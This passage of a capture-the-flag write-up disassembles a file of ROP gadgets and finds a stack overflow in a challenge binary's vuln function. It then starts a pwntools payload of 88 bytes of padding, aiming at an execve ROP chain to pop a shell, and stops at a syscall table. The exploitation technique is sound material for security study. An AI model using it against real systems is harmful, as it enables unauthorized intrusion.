 ```

gadgets.raw:     file format binary


Disassembly of section .data:

00000000 <.data>:
       0:   00 00                   add    %al,(%eax)
       2:   c3                      ret    
       3:   00 01                   add    %al,(%ecx)
       5:   c3                      ret    
       6:   00 02                   add    %al,(%edx)
       8:   c3                      ret    
       9:   00 03                   add    %al,(%ebx)
       b:   c3                      ret    
       c:   00 04 c3                add    %al,(%ebx,%eax,8)
       f:   00 05 c3 00 06 c3       add    %al,0xc30600c3
      15:   00 07                   add    %al,(%edi)
........ lots of gadgets ........
   2fffe:   ff c3                   inc    %ebx
```

Vulnerability Identification
============================

Now before I build my ropchain, I want to make sure I have a vulnerability to trigger the ropchain. Again, using the symbols as a clue, I go straight to the `vuln` function.

![](https://i.imgur.com/Vk0flKA.png)

Here, we have a pretty obvious stack overflow. Read is called, with a length of `0x100` and stored in a hard-coded location in `.bss`. Then, memcpy is called to copy upto `0x100` bytes onto the stack, however, only `0x50` bytes are allocated on the stack for the destination of this memcpy. So now we have our vulnerability!

Solution (Exploit Development)
==============================

If you are not familiar with the [pwntools](https://github.com/Gallopsled/pwntools) library for Python, I highly recommend getting familiar with it. It is incredibly helpful for building exploits for CTFs, and can also come in handy for non-pwn challenges, such as PPC or shellcoding challenges.

So first I start with building my payload. We will need 0x58(88) bytes of padding, followed by our ROP chain.

```
payload = ''
payload += 'A'*88
```

Ok, let’s think about what we want our ROP chain to do. The goal for most pwn challenges, is to pop a shell. The easiest way is to somehow execute `execve`. Let’s take a look at the [Linux x64 Syscall chart](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).

```
%rax    System call     %rdi                    %rsi                        %rdx
59      sys_execve      const char *filename    const char *const argv[]    const char *const envp[]
```
